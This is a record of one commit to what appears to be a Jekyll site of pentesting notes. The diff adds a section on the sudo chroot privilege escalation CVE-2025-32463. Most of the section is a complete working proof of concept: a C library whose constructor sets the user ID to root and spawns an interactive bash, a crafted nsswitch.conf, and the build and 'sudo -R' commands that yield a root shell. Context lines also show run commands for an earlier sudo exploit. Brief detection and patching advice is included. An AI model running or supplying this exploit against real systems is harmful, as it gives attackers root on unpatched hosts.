

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from privesc/cve_privesc.md, in a window 1280 px wide and 1400 px high, scrolled down 1653 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
docs: add IKE/IPsec aggressive-mode PSK enum and sudo chroot CVE-2025-32463

````diff
--- a/privesc/cve_privesc.md
+++ b/privesc/cve_privesc.md
@@ -83,6 +83,41 @@ make
 ./sudo-hax-me-a-sandwich 1   # Debian 10 / sudo 1.8.27
 ./sudo-hax-me-a-sandwich 2   # Fedora 33 / sudo 1.9.2
 ```
+
+---
+
+### sudo chroot NSS — CVE-2025-32463
+
+**Impact:** Any local user → root, **regardless of sudoers policy** (works even when
+`sudo -l` says "user may not run sudo"). Affects sudo 1.9.14 – 1.9.17 (fixed 1.9.17p1).
+
+```bash
+# Check — and watch for a SUID sudo planted ahead of the system one in PATH:
+find / -perm -4000 -type f 2>/dev/null | grep -i sudo   # e.g. /usr/local/bin/sudo
+echo $PATH                                               # /usr/local/bin first?
+sudo --version   # 1.9.14 – 1.9.17 = vulnerable
+
+# Why: sudo -R/--chroot applies the chroot while still root, then glibc NSS reads
+# etc/nsswitch.conf from INSIDE the attacker-controlled dir and loads the .so it names.
+# A library constructor therefore runs as root before privileges drop.
+
+# Self-authored PoC (no foreign binary; build + run on target):
+mkdir -p exploit/woot/etc exploit/libnss_ && cd exploit
+cat > woot.c <<'EOF'
+#include <stdlib.h>
+#include <unistd.h>
+__attribute__((constructor)) void woot(void){ setreuid(0,0); setregid(0,0); chdir("/"); execl("/bin/bash","bash","-i",(char*)NULL); }
+EOF
+echo 'passwd: /woot1337' > woot/etc/nsswitch.conf
+cp /etc/group woot/etc/
+gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot.c
+sudo -R woot woot        # -> root shell
+# Public PoC: https://github.com/pr0v3rbs/CVE-2025-32463_chwoot (Stratascale advisory)
+```
+
+> A `sudo` newer than the distro package, SUID-root, first in `$PATH`, is the tell. "May
+> not run sudo" does NOT mean sudo is safe — this flaw is in sudo's privileged startup,
+> not the policy. Remediation: patch to 1.9.17p1+ and remove any planted `/usr/local/bin/sudo`.
 
 ---
 
````
Also changed, not shown: recon/service_enumeration.md (+31 -0 lines).
